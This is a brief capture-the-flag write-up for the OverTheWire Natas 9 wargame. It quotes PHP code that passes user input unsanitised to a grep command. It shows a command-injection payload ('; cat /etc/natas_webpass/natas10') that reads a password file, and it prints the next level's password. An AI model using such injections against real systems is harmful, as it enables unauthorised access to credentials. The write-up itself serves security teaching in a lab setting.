



# Natas 9

Link : http://natas9.natas.labs.overthewire.org/

Natas 9 screen :




Natas 9 source code :




Where are going to use this part of the code to get the answer:

```php
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```
replacing $key with "; cat /etc/natas_webpass/natas10"

```php
if($key != "") {
    passthru("grep -i ; cat /etc/natas_webpass/natas10 dictionary.txt");
}
```
Then we get  



So the password for Natas 10 is : nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu